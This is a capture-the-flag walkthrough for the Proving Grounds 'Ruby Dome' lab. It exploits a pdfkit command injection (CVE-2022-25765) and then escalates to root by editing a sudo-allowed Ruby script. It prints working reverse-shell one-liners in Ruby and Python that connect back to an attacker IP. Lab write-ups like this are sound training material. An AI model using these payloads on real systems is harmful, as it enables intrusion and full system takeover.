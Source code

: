 ```yaml
---
layout: default
title: Ruby Dome
parent: Proving Grounds Practice - Linux
nav_order: 12
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/rubydome]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.192.22

Nmap scan report for 192.168.192.22

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)

3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
```

# Enumeration

---

## 3000 | HTTP

The site provides a text entry box for RubyDome HTML to PDF conversion.

![index](../../../assets/images/ctfs/proving_grounds/rubydome/index.png)

If we run http://localhost.com in the text field and click "Conver to PDF" we can an error page.

![error](../../../assets/images/ctfs/proving_grounds/rubydome/error.png)

Searching searchsploit for "PDFKit" we return a result for "pdfkit v0.8.7.2 - Command Injection"

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/rubydome]
└─$ searchsploit pdfkit
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                                   | ruby/local/51293.py
---------------------------------------------------------------------- ---------------------------------

```

# Exploitation

---

Copied 51293.py exploit to the pwd and executed the following command

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/rubydome]
└─$ python3 51293.py -s 192.168.45.217 9001 -w http://192.168.192.22:3000/pdf -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.217","9001"))'`
LOCALIP: 192.168.45.217:9001
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 9001".
WEBSITE: http://192.168.192.22:3000/pdf
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.

```

Received a reverse shell on the netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/rubydome]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.192.22] 46414
id
uid=1001(andrew) gid=1001(andrew) groups=1001(andrew),27(sudo)

```

# Post-Exploitation

---

We gain the reverse shell as user Andrew

## Check Sudo permissions for Andrew

```bash
andrew@rubydome:~$ sudo -l
sudo -l
Matching Defaults entries for andrew on rubydome:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User andrew may run the following commands on rubydome:
    (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
andrew@rubydome:~$ ls -la /home/andrew/app
```

We can execute _/usr/bin/ruby /home/andrew/app/app.rb_ and we have full permissions for _app.rb_

```bash
andrew@rubydome:~$ ls -la /home/andrew/app
ls -la /home/andrew/app
total 20
drwxr-xr-x 2 andrew andrew 4096 Apr 25  2023 .
drwxr-x--- 3 andrew andrew 4096 Jun 13 23:21 ..
-rwxrwx--- 1 andrew andrew 1032 Apr 24  2023 app.rb
-rw-rw-r-- 1 andrew andrew 8171 Jun  8 15:33 page.pdf

```

In ruby we can leverage _%x{ command }_ to get command execution.

We can simply edit _app.rb_ and add a Python reverse shell one-liner that executes when we execute the file.

We also need to edit the port set by the file since the current port 3000 is already in use.

We can do this with _set :port 3001_

```bash
set :port 3001
%x{ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.217",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' }
```

![app](../../../assets/images/ctfs/proving_grounds/rubydome/app.png)

Now we can just execute _app.rb_ and get a reverse shell on a secondary netcat listener

```bash
andrew@rubydome:~/app$ sudo /usr/bin/ruby /home/andrew/app/app.rb

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.192.22] 56982
# id
id
uid=0(root) gid=0(root) groups=0(root)

```
